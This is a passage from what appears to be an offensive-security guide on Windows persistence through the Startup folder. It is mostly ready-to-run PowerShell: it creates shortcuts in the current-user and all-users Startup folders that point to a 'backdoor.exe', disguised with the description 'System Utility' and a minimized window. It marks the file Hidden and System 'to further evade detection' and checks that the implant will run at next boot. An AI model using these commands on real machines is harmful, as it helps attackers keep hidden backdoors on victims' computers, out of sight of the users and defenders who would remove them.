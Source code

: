 #### Create a Shortcut for the Current User's Startup Folder
Instead of placing the executable directly in the startup folder, you can create a shortcut (`.lnk` file) that points to the malicious executable. This allows for greater flexibility in pointing to external paths and makes the persistence method less obvious.
- Create a Malicious Shortcut Using PowerShell:
	```powershell
	$WshShell = New-Object -ComObject WScript.Shell
	$Shortcut = $WshShell.CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\malicious_program.lnk")
	$Shortcut.TargetPath = "C:\Path\To\Malicious\backdoor.exe"
	$Shortcut.WorkingDirectory = "C:\Path\To\Malicious\"
	$Shortcut.WindowStyle = 7  # Minimized window
	$Shortcut.Description = "System Utility"
	$Shortcut.Save()
	```

#### Create a Shortcut for the All Users' Startup Folder
- Create a Shortcut for All Users:
	```powershell
	$WshShell = New-Object -ComObject WScript.Shell
	$Shortcut = $WshShell.CreateShortcut("$env:ALLUSERSPROFILE\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.lnk")
	$Shortcut.TargetPath = "C:\Path\To\Malicious\backdoor.exe"
	$Shortcut.WorkingDirectory = "C:\Path\To\Malicious\"
	$Shortcut.WindowStyle = 7
	$Shortcut.Description = "System Utility"
	$Shortcut.Save()
	```

#### Hide Executable with Hidden Attributes
To further evade detection, the executable or shortcut file in the startup folder can be hidden using file attributes:
- Set Hidden and System File Attributes:
	```powershell
	$MaliciousFilePath = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\malicious_program.exe"
	Set-ItemProperty -Path $MaliciousFilePath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden + [System.IO.FileAttributes]::System)
	```

#### Verifying Persistence
After placing the malicious executable or shortcut in the startup folder, you can verify that it will indeed execute on the next startup by listing the contents of the startup folder:
- List Items in the Startup Folder (Current User):
	```powershell
	Get-ChildItem "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
	```
- List Items in the Startup Folder (All Users):
	```powershell
	Get-ChildItem "$env:ALLUSERSPROFILE\Microsoft\Windows\Start Menu\Programs\Startup"
	```
